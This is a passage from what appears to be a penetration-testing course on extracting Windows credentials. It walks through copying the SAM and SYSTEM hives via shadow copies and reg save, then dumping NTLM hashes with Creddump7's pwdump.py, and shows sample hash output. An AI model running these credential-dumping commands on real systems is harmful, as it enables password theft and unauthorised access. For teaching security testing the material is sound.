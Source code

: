 ```
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\offsec.corp1\Downloads\system
        1 file(s) copied.
```

> Listing 7 - Shadow copying the SYSTEM file

We can also obtain a copy of the SAM database and SYSTEM files from the registry in the HKLM\sam and HKLM\system hives, respectively. Administrative permissions are required to read and copy.

For example, we'll use the reg save[13](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5349-13) command to save the content to the hard disk by specifying the registry hive and the output file name and path:

```
C:\> reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam
The operation completed successfully.

C:\> reg save HKLM\system C:\users\offsec.corp1\Downloads\system
The operation completed successfully.
```

> Listing 8 - Saving SAM and SYSTEM from the registry

Regardless of how we obtain the SAM database and SYSTEM file, we must decrypt them. At the time of writing, the only two tools that can decrypt these files are _Mimikatz_ and _Creddump7_.[14](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5349-14) In this example, we'll use Creddump.

First, we'll install the _python-crypto_ library, and then clone Creddump from the GitHub repository with git clone:

```
kali@kali:~$ sudo apt install python-crypto
Reading package lists... Done
Building dependency tree       
Reading state information... Done
...

kali@kali:~$ sudo git clone https://github.com/Neohapsis/creddump7
Cloning into 'creddump7'...
remote: Enumerating objects: 73, done.
remote: Total 73 (delta 0), reused 0 (delta 0), pack-reused 73
Unpacking objects: 100% (73/73), done.
```

> Listing 9 - Download Creddrump7 project

Next, we'll copy the SAM and SYSTEM files from the Windows 10 victim machine to our Kali Linux machine and use the pwdump.py python script from Creddrump7 to decrypt the NTLM hashes as shown in Listing 10.

```
kali@kali:~$ cd creddump7/

kali@kali:~/creddump7$ python pwdump.py /home/kali/system /home/kali/sam
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e6178f16bccb14659f6c5228b070e0bf:::
```
